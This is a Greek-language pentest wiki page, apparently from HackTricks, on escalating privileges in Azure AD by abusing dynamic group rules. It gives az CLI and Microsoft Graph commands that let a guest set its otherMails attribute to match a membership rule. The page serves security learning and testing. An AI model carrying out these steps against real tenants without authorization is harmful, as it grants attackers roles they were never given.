 # Az - Dynamic Groups Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## Basic Information

**Δυναμικές ομάδες** είναι ομάδες που έχουν ρυθμισμένο ένα σύνολο **κανόνων** και όλοι οι **χρήστες ή συσκευές** που ταιριάζουν με τους κανόνες προστίθενται στην ομάδα. Κάθε φορά που μια **ιδιότητα** χρήστη ή συσκευής **αλλάζεται**, οι δυναμικοί κανόνες **επαληθεύονται** ξανά. Και όταν ένας **νέος κανόνας** **δημιουργείται**, όλες οι συσκευές και οι χρήστες **ελέγχονται**.

Οι δυναμικές ομάδες μπορούν να έχουν **ρόλους Azure RBAC** ανατεθειμένους σε αυτές, αλλά **δεν είναι δυνατή** η προσθήκη **ρόλων AzureAD** σε δυναμικές ομάδες.

Αυτή η δυνατότητα απαιτεί άδεια Azure AD premium P1.

## Privesc

Σημειώστε ότι από προεπιλογή οποιοσδήποτε χρήστης μπορεί να προσκαλεί επισκέπτες στο Azure AD, οπότε, αν ένας κανόνας **δυναμικής ομάδας** δίνει **δικαιώματα** σε χρήστες με βάση **ιδιότητες** που μπορούν να **ρυθμιστούν** σε έναν νέο **επισκέπτη**, είναι δυνατόν να **δημιουργηθεί ένας επισκέπτης** με αυτές τις ιδιότητες και να **ανεβούν τα δικαιώματα**. Είναι επίσης δυνατόν για έναν επισκέπτη να διαχειρίζεται το προφίλ του και να αλλάζει αυτές τις ιδιότητες.

Αποκτήστε ομάδες που επιτρέπουν Δυναμική συμμετοχή: **`az ad group list --query "[?contains(groupTypes, 'DynamicMembership')]" --output table`**

### Example

- **Παράδειγμα κανόνα**: `(user.otherMails -any (_ -contains "security")) -and (user.userType -eq "guest")`
- **Περιγραφή κανόνα**: Οποιοσδήποτε χρήστης Επισκέπτης με δευτερεύον email που περιέχει τη λέξη 'security' θα προστεθεί στην ομάδα

Για το email του χρήστη Επισκέπτη, αποδεχτείτε την πρόσκληση και ελέγξτε τις τρέχουσες ρυθμίσεις **αυτού του χρήστη** στο [https://entra.microsoft.com/#view/Microsoft_AAD_IAM/TenantOverview.ReactView](https://entra.microsoft.com/#view/Microsoft_AAD_IAM/TenantOverview.ReactView).\
Δυστυχώς, η σελίδα δεν επιτρέπει την τροποποίηση των τιμών των ιδιοτήτων, οπότε πρέπει να χρησιμοποιήσουμε το API:
```powershell
# Login with the gust user
az login --allow-no-subscriptions

# Get user object ID
az ad signed-in-user show

# Update otherMails
az rest --method PATCH \
--url "https://graph.microsoft.com/v1.0/users/<user-object-id>" \
--headers 'Content-Type=application/json' \
--body '{"otherMails": ["newemail@example.com", "anotheremail@example.com"]}'

# Verify the update
az rest --method GET \
--url "https://graph.microsoft.com/v1.0/users/<user-object-id>" \
--query "otherMails"
```
## Αναφορές

- [https://www.mnemonic.io/resources/blog/abusing-dynamic-groups-in-azure-ad-for-privilege-escalation/](https://www.mnemonic.io/resources/blog/abusing-dynamic-groups-in-azure-ad-for-privilege-escalation/)

{{#include ../../../../banners/hacktricks-training.md}}
